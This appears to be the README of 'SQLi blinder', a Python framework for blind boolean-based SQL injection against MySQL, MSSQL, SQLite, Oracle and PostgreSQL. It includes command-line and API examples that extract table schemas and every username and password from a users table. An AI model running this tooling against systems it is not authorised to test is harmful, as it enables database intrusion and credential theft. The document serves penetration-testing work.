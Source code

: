 # SQLi blinder

Framework for blind boolean-based sql injections explotation. Use it if sqlmap does shit. 

Support:
- MySQL
- MSSQL
- SQLite
- Oracle
- PostgreSQL

Requires Python 3.x.

There are no dependencies, just `pip install requests` for example `request_func`, or `pip install aiohttp` for async example.

## Usage

You could use sqlib.py console utility or do your own script by importing `sqli_blinder.SQLiBlinder`, but both cases requires you to create your own `request_func`.

### Prepare request_func

The `request_func` must paste single input param to your SQL injection and issue request.
It must return `True` for input param `1=1` and `False` for input param `1=0`.

It's OK to throw on unexpected behavior.

Example presented in `sqlib.py`.

Check your `request_func` with:

```python
SQLiBlinder(request_func,dbms).check()
```

If you want to use sqlib.py - replace `request_func` with your own.

### Async version of request_func

Limitation of standart version is that it works sequentially. Multithreading is applied only for string chars search. When string is found, it use single thread to determine length of next string and etc.

Async allows make more task simultaniously, so it is supposed to be faster.

But it require you to make async `request_func`. You could use one of python HTTP async clients such as `aiohttp` or [make requests async](https://stackoverflow.com/questions/22190403/how-could-i-use-requests-in-asyncio).

You can find example of async `request_func` in sqlib_async.py.

### Run sqlib.py

sqlib_async.py use same syntax.

```
usage: sqlib.py [-h] [-t TABLE] [-c COLUMN] [-w WHERE] [-i INDEX]
                [--threads THREADS] --dbms {mysql,mssql,sqlite,oracle,postgre}
                {check,count,one,get}

positional arguments:
  {check,count,one,get}
                        mode - one of ['check','count','one','get']

optional arguments:
  -h, --help            show this help message and exit
  -t TABLE, --table TABLE
                        table nmae
  -c COLUMN, --column COLUMN
                        column names. For get mode could by comma separated array of columns
  -w WHERE, --where WHERE
                        where clause
  -i INDEX, --index INDEX
                        index of row
  --threads THREADS     number of threads
  --dbms {mysql,mssql,sqlite,oracle} DBMS
  --order-by ORDER_BY   order by column name or index
  -s, --silent          not print output during retrieving
```

Examples:

Check `request_func`:  
`python sqlib.py check` 

Get count of rows in `sqlite_master` table (like `SELECT count(*) FROM sqlite_master`):  
`python sqlib.py count -t sqlite_master --dbms sqlite`

Get number of rows in `users` table where `username`=`admin` (like`SELECT count(*) FROM users WHERE username='admin'`):  
`python sqlib.py count -t users --dbms sqlite --where "username='admin'"`

Get value of `password` column in `users` table with index `1` (like `SELECT password FROM users offset 1 limit 1`):  
`python sqlib.py one -t users -c password -i 1 --dbms sqlite`

Get all `username` and `password` from `users` table (like `SELECT username,password FROM users`):  
`python sqlib.py get -t users -c username,password --dbms sqlite` 

### SQLiBlinder class

Intended public methods:

- `check()` - check provided `request_func` with `1=1` and `1=0` payloads

- `get_count(table_name,where=None)` - get count of rows in `table` with provided `where` clause

- `get_string(table,column,index,where=None)` - get value of `column` in `table` with index=`index`. `where` is optional

- `get(columns,table_name,where=None)` - get all columns in `columns` from `table` where `where`

examples:

```python
sqlib = SQLiBlinder(request_func,'sqlite',multithreaded=True,threads=16)
sqlib.check() # True
sqlib.get_count('sqlite_master') # number of rows in sqlite_master
sqlib.get_string('sqlite_master','sql',1,) # code of first table
sqlib.get(['username','password'],'users') # all usernames and passwords
sqlib.get(['username','password'],'users',where="username='admin'") # admins username and password
```
